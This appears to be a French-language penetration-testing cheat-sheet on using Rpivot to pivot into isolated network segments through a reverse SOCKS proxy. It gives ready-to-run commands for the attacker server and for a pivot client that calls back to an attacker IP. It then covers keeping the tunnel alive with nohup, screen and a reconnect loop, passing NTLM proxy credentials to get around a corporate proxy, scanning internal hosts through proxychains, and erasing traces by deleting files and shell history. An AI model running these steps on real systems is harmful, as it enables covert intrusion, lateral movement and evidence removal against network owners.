

Cette documentation détaille l'utilisation de **Rpivot** pour le **Pivoting** réseau, une technique de **Lateral Movement** permettant d'accéder à des segments réseau isolés via un proxy SOCKS inversé.



> [!danger] Dépendance critique à Python 2.7
> **Rpivot** nécessite **Python 2.7**, qui est obsolète et souvent absent des systèmes modernes. Son installation peut nécessiter des dépôts spécifiques ou une compilation manuelle.

> [!warning] Risque de détection
> L'utilisation de **Rpivot** génère un trafic sortant inhabituel vers une IP externe, ce qui peut être détecté par les solutions EDR ou les logs de pare-feu.

> [!tip] Configuration ProxyChains
> Il est impératif de configurer correctement **ProxyChains** pour éviter les fuites DNS en activant l'option **proxy_dns** dans le fichier de configuration.

> [!info] Limitation technique
> **Rpivot** ne gère que le trafic **TCP**. Les scans de type **SYN** ou les protocoles basés sur **UDP** ne seront pas routés correctement via le tunnel.

## Installation

### Configuration machine attaquante

1. Cloner le dépôt **Rpivot** :
```bash
git clone https://github.com/klsecservices/rpivot.git
cd rpivot
```

2. Installer **Python 2.7** :
```bash
sudo apt install python2.7
```

3. Démarrer le serveur **Rpivot** :
```bash
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

## Configuration machine pivot

1. Transférer les fichiers via **SCP** :
```bash
scp -r rpivot ubuntu@<IP_PIVOT>:/home/ubuntu/
```

2. Exécuter le client **Rpivot** :
```bash
python2.7 client.py --server-ip <IP_ATTAQUANT> --server-port 9999
```

3. Exécution en arrière-plan (stabilité) :
```bash
nohup python2.7 client.py --server-ip <IP_ATTAQUANT> --server-port 9999 &
```

## Stabilité et persistance du tunnel

Pour garantir la persistance lors d'une session de **Lateral Movement**, il est recommandé d'utiliser `systemd` ou `screen` pour maintenir le processus client actif en cas de déconnexion réseau.

```bash
# Utilisation de screen pour persistance
screen -S rpivot_tunnel
python2.7 client.py --server-ip <IP_ATTAQUANT> --server-port 9999
# Détachement avec Ctrl+A, D
```

## Gestion des erreurs et troubleshooting

En cas de timeout ou de connexion refusée, vérifier les points suivants :

| Symptôme | Cause probable | Action corrective |
| :--- | :--- | :--- |
| `Connection refused` | Port 9999 bloqué par FW | Vérifier `iptables` ou `ufw` sur l'attaquant |
| `Timeout` | Latence réseau élevée | Augmenter le timeout dans le script client |
| `Broken pipe` | Instabilité du tunnel | Relancer le client avec une boucle `while` |

```bash
# Boucle de reconnexion automatique
while true; do python2.7 client.py --server-ip <IP_ATTAQUANT> --server-port 9999; sleep 5; done
```

## Vérification de la connexion

Sur la machine attaquante, la réception de la connexion est confirmée par le log suivant :
```text
New connection from host <IP_PIVOT>, source port <PORT>
```

## Utilisation avec ProxyChains

La configuration de **ProxyChains** permet d'encapsuler les outils de **Network Enumeration** dans le tunnel SOCKS.

1. Modifier `/etc/proxychains.conf` :
```ini
socks5 127.0.0.1 9050
```

2. Exécution des outils :
```bash
proxychains nmap -sT -Pn 172.16.5.135 -p 80
proxychains firefox http://172.16.5.135
proxychains smbclient -L \\172.16.5.10\
```

## Contournement NTLM Proxy

En environnement d'entreprise, le trafic peut être filtré par un proxy HTTP nécessitant une authentification **NTLM** :

```bash
python2.7 client.py --server-ip <IP_ATTAQUANT> --server-port 9999 \
--ntlm-proxy-ip <IP_PROXY> --ntlm-proxy-port <PORT_PROXY> \
--domain <DOMAINE> --username <USER> --password <PASS>
```

## Considérations sur la détection (EDR/Logs)

L'activité de **Pivoting** est hautement surveillée. Les indicateurs de compromission (IoC) incluent :
- Connexions sortantes persistantes vers des IP externes sur des ports non standards.
- Processus `python2.7` exécutant des sockets réseau inhabituels.
- Logs de proxy HTTP montrant des requêtes `CONNECT` répétées vers des segments internes.

Il est recommandé de limiter le trafic via **ProxyChains** aux seules cibles nécessaires pour réduire l'empreinte réseau.

## Nettoyage des traces (suppression des fichiers)

Une fois la mission terminée, supprimer les artefacts laissés sur la machine pivot :

```bash
# Suppression du répertoire rpivot
rm -rf /home/ubuntu/rpivot

# Nettoyage des logs de commande (si nécessaire)
history -d $(history | grep "python2.7 client.py" | awk '{print $1}')
```

## Comparaison d'outils

| Outil | Avantage | Inconvénient |
| :--- | :--- | :--- |
| **SSH** (Dynamic Forwarding) | Stable, natif | Besoin d'accès SSH |
| **Metasploit** Socks Proxy | Automatisé | Détectable |
| **Socat** | Simple, adaptable | Nécessite exécution manuelle |
| **Rpivot** | Fonctionne sans SSH | Dépend de **Python 2.7** |

Ces techniques de **Pivoting** et de **Tunneling** sont complémentaires aux méthodes de **SSH Dynamic Port Forwarding** et aux outils de **ProxyChains**.